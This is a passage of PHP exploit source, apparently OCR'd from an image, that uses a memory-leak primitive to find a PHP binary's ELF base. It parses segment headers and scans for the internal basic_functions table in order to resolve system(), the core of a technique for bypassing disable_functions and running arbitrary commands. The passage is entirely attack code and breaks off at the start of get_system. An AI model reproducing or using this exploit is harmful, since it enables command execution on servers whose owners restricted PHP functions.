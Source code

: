 ```php
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
```